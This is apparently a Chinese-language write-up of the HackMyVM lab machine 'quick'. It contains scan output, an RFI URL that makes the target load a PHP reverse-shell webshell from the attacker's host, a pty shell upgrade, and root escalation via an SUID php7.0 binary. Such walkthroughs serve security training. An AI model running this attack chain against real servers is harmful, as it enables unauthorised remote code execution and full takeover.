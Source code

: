```yaml
---
title: quick
author: hgbe02
date: 2024-03-21
categories: [Training platform,Hackmyvm]  
tags: [Hackmyvm,web]  
permalink: "/Hackmyvm/quick.html"
---
```


# quick

![image-20240317144102239](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403210142569.png)

扫描一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403210142571.png" alt="image-20240321010459945" style="zoom:50%;" />

阔以！

## 信息搜集

### 端口扫描

```bash
sudo nmap -Pn 10.0.2.8
```

```text
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)
```

```bash
nmap -sV -sT -T4 -p- 10.0.2.8
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

看来真没东西了。

### 目录扫描

```bash
feroxbuster -u http://10.0.2.8
```

```text
301      GET        9l       28w      305c http://10.0.2.8/images => http://10.0.2.8/images/
200      GET       88l      342w     3735c http://10.0.2.8/index.php
200      GET      314l     2467w   220000c http://10.0.2.8/images/logo.png
200      GET     2190l    12161w   863176c http://10.0.2.8/images/joe.jpeg
200      GET     2740l    14581w  1058919c http://10.0.2.8/images/jane.jpeg
200      GET      134l      799w    59813c http://10.0.2.8/images/pexels-adrian-newell-6968984.jpg
200      GET      255l     1417w   103988c http://10.0.2.8/images/pexels-mike-bird-190537.jpg
200      GET      261l      453w     4038c http://10.0.2.8/styles.css
200      GET       88l      342w     3735c http://10.0.2.8/
200      GET     1795l    10935w   818584c http://10.0.2.8/images/pexels-pixabay-38570.jpg
200      GET      157l      983w    66146c http://10.0.2.8/images/pexels-ishan-kulshrestha-9334971.jpg
```

以防万一`FUZZ`一下：

```bash
ffuf -u http://10.0.2.8/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```

```text
images                  [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 115ms]
server-status           [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 0ms]
```

没啥东西了，开撤！

### 漏洞扫描

```bash
nikto -h http://10.0.2.8
```

```text
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.8
+ Target Hostname:    10.0.2.8
+ Target Port:        80
+ Start Time:         2024-03-20 13:20:16 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /images/: Directory indexing found.
+ /index.php: Output from the phpinfo() function was found.
+ /index.php?page=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ 8102 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2024-03-20 13:20:33 (GMT-4) (17 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## 漏洞利用

### RFI漏洞利用

扫出来了一个`RFI`漏洞：

```url
http://10.0.2.8/index.php?page=http://10.0.2.4:8888/webshell
```

![image-20240321013444703](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403210142573.png)

```php
# head webshell.php
<?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.0.2.8';  // You have changed this
  $port = 1234;  // And this
  $chunk_size = 1400;
```

> 实际上，就算没有打全，只打前几个字母，也可以请求到正确的文件！

## 提权

### 扩展shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 发现suid漏洞

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403210142574.png" alt="image-20240321013843945" style="zoom:50%;" />

这个`php7.0`明显有suid：https://gtfobins.github.io/gtfobins/php/

```
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```

### 寻找flag

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403210142575.png" alt="image-20240321014151243" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403210142576.png" alt="image-20240321014203052" style="zoom: 33%;" />
